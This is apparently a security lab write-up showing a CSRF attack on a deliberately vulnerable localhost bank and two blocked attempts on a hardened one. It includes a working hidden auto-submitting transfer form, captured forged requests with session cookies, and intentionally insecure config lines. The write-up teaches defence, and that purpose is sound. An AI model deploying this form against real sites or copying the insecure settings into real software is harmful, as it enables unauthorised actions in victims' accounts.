


# Cross-site request forgery: a hidden form moves Alice's money

Alice opens a page that promises a free gift card. While she reads it, a hidden form on the page posts a transfer to her bank. The browser attaches her cookie, and the bank does as it's told. The hardened bank refuses the same request twice over, for two different reasons. Exact steps to reproduce it are in [ATTACKS.md](../ATTACKS.md).

Setup: Alice is logged in to both banks in a normal Chrome window. The attack pages live on the attacker site; one of them lives on a subdomain of the hardened bank, which is the interesting one.

## Vulnerable bank

### The gift card page

Alice lands on `attacker.localhost/csrf?target=vulnerable`. It shows a cheerful "Loading your free gift card…".



The whole page is this:

```html
<h1>🎁 Loading your free gift card…</h1>
<form id="csrf" method="post" action="http://bank.localhost:3000/transfer">
  <input type="hidden" name="to" value="mallory">
  <input type="hidden" name="amount" value="100">
</form>
<script>setTimeout(() => document.getElementById('csrf').submit(), 1200);</script>
```

No fetch, no XSS, no cleverness. A normal HTML form pointed at the bank, submitted by a one-line script after a short delay. The delay is only so a human sees the gift-card story before the page navigates away. The form could just as easily submit on load, or sit behind a "Claim now" button if a click is needed.

Two details make this work:

- The form submits to the bank's real origin. A top-level form POST is an ordinary navigation, the same kind the browser makes when Alice submits any form anywhere, so the browser attaches her `bank.localhost` cookie.
- `Content-Type` for a plain form is `application/x-www-form-urlencoded`, which counts as a "simple" request. No CORS preflight, nothing for the bank to approve ahead of time. The request just arrives, cookie and all.

### The three requests

A proxy like Burp Suite with "Intercept on" is the clearest way to watch this, because the attack ends in a redirect and the browser blurs past all three steps. The sequence is: load the attacker page, the forged POST to the bank, then the bank's redirect to Alice's account.

The forged transfer:

```http
POST /transfer HTTP/1.1
Host: bank.localhost:3000
Content-Length: 21
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="8", "Chromium";v="156"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: [REDACTED]
Origin: http://attacker.localhost:4000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: http://attacker.localhost:4000/
Accept-Encoding: gzip, deflate, br
Cookie: sid=Ljo9nMnlrJfqtGiwQw7OKnfhpnhUj3lC1Ucu-ewPlSQ
Connection: keep-alive

to=mallory&amount=100
```

The body is twenty-one bytes, `to=mallory&amount=100`, with no CSRF token anywhere. The bank doesn't ask for one. Everything it needs to know this request is suspicious is already in the headers: `Origin` is the attacker's site, `Sec-Fetch-Site` is `cross-site`, the `Referer` points at `attacker.localhost`. The one header the bank acts on, `Cookie`, is the one the browser attaches on Alice's behalf. `SameSite=None` on her session cookie is what lets it ride along on a cross-site navigation.

The bank answers with a redirect, which the browser follows:

```http
GET /account?notice=Sent%20%E2%82%AC100%20to%20mallory HTTP/1.1
Host: bank.localhost:3000
...
Sec-Fetch-Site: cross-site
Cookie: sid=Ljo9nMnlrJfqtGiwQw7OKnfhpnhUj3lC1Ucu-ewPlSQ
...
```

The notice text is baked into the redirect URL by the bank itself. Alice ends up looking at her own account, with a friendly green banner confirming she just paid Mallory €100.



### Reading the logs

```
bank-vuln-1  | [bank-vuln] POST /transfer  origin=http://attacker.localhost:4000  session-cookie=yes
bank-vuln-1  | [bank-vuln]   CORS: rejected origin http://attacker.localhost:4000
bank-vuln-1  | [bank-vuln]   TRANSFER €100 alice -> mallory
bank-vuln-1  | [bank-vuln] GET /account  origin=-  session-cookie=yes
bank-vuln-1  | [bank-vuln] GET /static/style.css  origin=-  session-cookie=yes
```

The bank saw the cookie (`session-cookie=yes`), noticed the request came from a foreign origin and even logged `CORS: rejected origin http://attacker.localhost:4000`, and then moved the money anyway. The CORS rejection is just bookkeeping: it controls whether the attacker's page may *read* a response, and the attacker never wanted to read anything. The transfer and the rejection sit on two consecutive lines, doing nothing to each other. The bank had the evidence and no rule that acted on it.

## Impact

CSRF makes the victim's browser act for the attacker. It can't read anything back, so this isn't about stealing data; it's about doing things as the victim. Here that's a €100 transfer, repeatable for as long as Alice's session lasts and as often as she opens one of these links. On a real bank the same pattern covers anything a form does without re-authentication: adding a payee, changing the notification email so the victim stops seeing alerts, updating a shipping address, flipping an account setting.

The barrier to entry is low. No account at the bank, no XSS, no network position. Just a link Alice opens while logged in, which lands in email, an ad, or a forum post. That combination of "trivial to deliver" and "acts with full user privileges" is why CSRF sat on the OWASP Top 10 for years, and why `SameSite` cookies were eventually made a browser default to blunt it.

## What went wrong

### 1. No CSRF token check

The root cause:

```ts
// vulnerable.ts
csrfTokenRequired: false,
```

The bank renders a CSRF token into its own forms, then never checks it on the way back in. A state-changing POST is accepted on the strength of the session cookie alone, and the cookie is exactly the thing the browser will attach to a cross-site request without asking Alice. A token fixes this because the attacker's page can't read it: it lives on the bank's origin, and the same-origin policy keeps a page on `attacker.localhost` from reading anything rendered by `bank.localhost`.

The hardened bank sets `csrfTokenRequired: true` and compares the submitted token against the one tied to the session, rejecting the request with 403 when it's missing or wrong.

### 2. The session cookie travels cross-site

```ts
// vulnerable.ts
sessionCookie: { name: 'sid', options: { path: '/', sameSite: 'none', secure: true } },
```

`SameSite=None` tells the browser to send the cookie on requests started by other sites, which is the only reason the forged POST carries any session at all. `SameSite=Lax`, the hardened setting, holds the cookie back on cross-site POSTs while still sending it when Alice clicks a normal link into the bank. That single attribute stops this exact attack, which is why modern browsers treat `Lax` as the default when no `SameSite` is set.

### 3. The browser already flagged the request, nobody listened

`Origin: http://attacker.localhost:4000` and `Sec-Fetch-Site: cross-site` were both on the forged POST. A check as small as "reject state-changing POSTs whose `Sec-Fetch-Site` is `cross-site`" would have stopped it, no tokens required. The bank computed the `Origin` verdict and wrote it to the log, then ignored it. Defense in depth only helps if something acts on the signal.

### What each layer would have stopped

| Control | Effect on this attack |
| --- | --- |
| CSRF token check | Request rejected with 403; no token, no transfer |
| `SameSite=Lax` cookie | Cookie never sent cross-site; the bank sees an anonymous request and answers 401 |
| Checking `Origin` / `Sec-Fetch-Site` on writes | Request rejected before it touches the account |
| `HttpOnly` | Nothing. The browser attaches the cookie whether or not JavaScript can read it |
| The bank's CORS check | Nothing. It governs reading responses, not whether the write happens |

## Hardened bank

The hardened bank is attacked twice, because the first attempt doesn't really test the token at all.

### Cross-site: the cookie never arrives

From `attacker.localhost`, the forged POST goes to `bank-safe.localhost:3001`:

```http
POST /transfer HTTP/1.1
Host: bank-safe.localhost:3001
Content-Length: 21
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="8", "Chromium";v="156"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: [REDACTED]
Origin: http://attacker.localhost:4000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: http://attacker.localhost:4000/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

to=mallory&amount=100
```

There is no `Cookie` header on this request. `SameSite=Lax` kept Alice's session home because this is a cross-site navigation to a POST, so the bank receives an anonymous request:

```http
HTTP/1.1 401 Unauthorized
X-Frame-Options: DENY
Content-Security-Policy: default-src 'none'; script-src 'nonce-x/p19XUlGDij/ATVHuHFDQ==' 'strict-dynamic'; style-src 'self'; img-src 'self'; connect-src 'self'; form-action 'self'; base-uri 'none'; object-src 'none'; frame-ancestors 'none'
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer
Permissions-Policy: camera=(), microphone=(), geolocation=()
Cross-Origin-Opener-Policy: same-origin
Vary: Origin
Content-Type: text/html; charset=utf-8
Content-Length: 513
ETag: W/"201-1K597bQYWjjwK04eFe0jffOiZvI"
Date: Mon, 09 Nov 2026 16:42:55 GMT
Connection: keep-alive
Keep-Alive: timeout=5

...
  <main><h1>Not logged in</h1><p>Please log in first.</p><p><a href="/account">Back</a></p></main>
```

It finds no session and answers **401 Not logged in**. The CSRF token check never even runs, because there's no session to protect yet. The response is the hardened bank's own: strict CSP, `X-Frame-Options: DENY`, no `X-Powered-By` banner.

This is the common case, and `SameSite=Lax` alone handles it. But it leaves a question open: what about an attacker who *isn't* cross-site?

### Same-site: the cookie arrives, the token doesn't

The second page lives on `evil.bank-safe.localhost`, a subdomain of the hardened bank. The forged POST now looks like this:

```http
POST /transfer HTTP/1.1
Host: bank-safe.localhost:3001
Content-Length: 21
...
Origin: http://evil.bank-safe.localhost:4000
Sec-Fetch-Site: same-site
...
Cookie: sid=5UzM6GY006sNRmdyN596IZDk6wOFzG4o2cQ_AiqJeaQ
Connection: keep-alive

to=mallory&amount=100
```

The `Cookie` header is back, and `Sec-Fetch-Site` reads `same-site` instead of `cross-site`. "Same site" means the same registrable domain, `bank-safe.localhost`, and the browser ignores the subdomain and the port when it decides. So `evil.bank-safe.localhost` and `bank-safe.localhost` count as one site, and `SameSite=Lax` happily sends the cookie. The defense that stopped the cross-site attempt does nothing here.

This is where the token earns its place:

```http
HTTP/1.1 403 Forbidden
X-Frame-Options: DENY
Content-Security-Policy: default-src 'none'; script-src 'nonce-JGGmv5ziwyXa1yOxFPoawQ==' 'strict-dynamic'; style-src 'self'; img-src 'self'; connect-src 'self'; form-action 'self'; base-uri 'none'; object-src 'none'; frame-ancestors 'none'
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer
Permissions-Policy: camera=(), microphone=(), geolocation=()
Cross-Origin-Opener-Policy: same-origin
Vary: Origin
Content-Type: text/plain; charset=utf-8
Content-Length: 29
ETag: W/"1d-CoF7jhOnTWggo+Gj2ubPJcPySKA"
Date: Mon, 09 Nov 2026 16:00:18 GMT
Connection: keep-alive
Keep-Alive: timeout=5

Forbidden: invalid CSRF token
```

The cookie got the request authenticated, but the body has no token, so the bank returns **403 invalid CSRF token**. The attacker on the subdomain can't supply one: to read Alice's real token it would have to read a page served by `bank-safe.localhost`, and the same-origin policy blocks that. `evil.bank-safe.localhost` is same-*site* but not same-*origin*.

A real version of this isn't exotic. A forgotten subdomain pointing at a cloud bucket someone else can claim (a subdomain takeover), or a subdomain that hosts user content, is same-site with the main application. `SameSite` cookies trust it; the token doesn't. That gap is the entire reason the hardened bank carries both, instead of leaning on the cookie attribute alone.

## Takeaway

The forged request was indistinguishable from a real one in every way the bank chose to look, because it genuinely came from Alice's browser with Alice's cookie. `SameSite=Lax` handles the ordinary cross-site case for free, and it's enough right up until the attacker shares a registrable domain with you. The token is what covers the rest. Two controls for one attack isn't belt and braces here; they stop different attackers, and the writeup only shows that because the lab bothered to host a hostile subdomain.
